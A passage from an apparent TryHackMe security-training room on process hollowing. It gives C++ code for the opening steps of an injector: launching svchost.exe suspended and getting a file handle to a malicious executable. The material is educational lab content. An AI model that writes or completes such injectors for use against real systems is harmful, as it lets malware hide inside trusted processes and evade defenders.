 The steps can also be broken down graphically to depict how Windows API calls interact with process memory.


![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5e73cca6ec4fcf1309f2df86/room-content/3c36b4470fb04e3bfdbbef0674b79ec2.png)

We will break down a basic process hollowing injector to identify each of the steps and explain in more depth below.

At step one of process hollowing, we must create a target process in a suspended state using CreateProcessA. To obtain the required parameters for the API call we can use the structures STARTUPINFOA and PROCESS_INFORMATION.

```
LPSTARTUPINFOA target_si = new STARTUPINFOA(); // Defines station, desktop, handles, and appearance of a process
LPPROCESS_INFORMATION target_pi = new PROCESS_INFORMATION(); // Information about the process and primary thread
CONTEXT c; // Context structure pointer

if (CreateProcessA(
	(LPSTR)"C:\\\\Windows\\\\System32\\\\svchost.exe", // Name of module to execute
	NULL,
	NULL,
	NULL,
	TRUE, // Handles are inherited from the calling process
	CREATE_SUSPENDED, // New process is suspended
	NULL,
	NULL,
	target_si, // pointer to startup info
	target_pi) == 0) { // pointer to process information
	cout << "[!] Failed to create Target process. Last Error: " << GetLastError();
	return 1;

```

In step two, we need to open a malicious image to inject. This process is split into three steps, starting by using CreateFileA to obtain a handle for the malicious image.

```
HANDLE hMaliciousCode = CreateFileA(
	(LPCSTR)"C:\\\\Users\\\\tryhackme\\\\malware.exe", // Name of image to obtain
	GENERIC_READ, // Read-only access
	FILE_SHARE_READ, // Read-only share mode
	NULL,
	OPEN_EXISTING, // Instructed to open a file or device if it exists
	NULL,
	NULL
);


```

Once a handle for the malicious image is obtained, memory must be allocated to the local process using VirtualAlloc. GetFileSize is also used to retrieve the size of the malicious image for dwSize.
